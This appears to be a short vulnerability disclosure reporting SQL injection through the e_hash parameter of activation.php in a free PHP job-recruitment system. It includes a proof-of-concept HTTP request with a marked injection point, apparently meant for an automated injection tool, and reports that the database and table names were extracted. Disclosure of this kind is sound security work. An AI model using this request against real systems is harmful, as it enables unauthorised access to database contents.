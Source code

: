 # job-recruitment-in-php has sql injection vulnerability in activation.php

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
/activation.php and e_hash parameter.

## describe

The activation.php file of the job-recruitment-in-php system has an SQL injection vulnerability, and the parameter parameter :e_hash  can be controlled.  This vulnerability allows a malicious attacker to obtain sensitive database information

**Code analysis**    

The e_hash parameter is obtained and passed to the SQL statement for execution without filtering

![image-20241213195740269](https://github.com/user-attachments/assets/8fa60e67-d40e-4307-9d66-3e3d19d52aa1)



## POC

```
GET /activation.php?id=1&e=123456&e_hash=1*&p=1 HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=7l3iuuld59eja5iiqnkaoecjn0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

save as  1.txt

**Result**

![image-20241213201658094](https://github.com/user-attachments/assets/80f4bd98-05f1-4a87-a1e3-42b3a3d86b00)

Get databases: owlphin And tables in it.

![image-20241213201627253](https://github.com/user-attachments/assets/4314c675-b9dd-4809-9aca-eb525b3e3326)
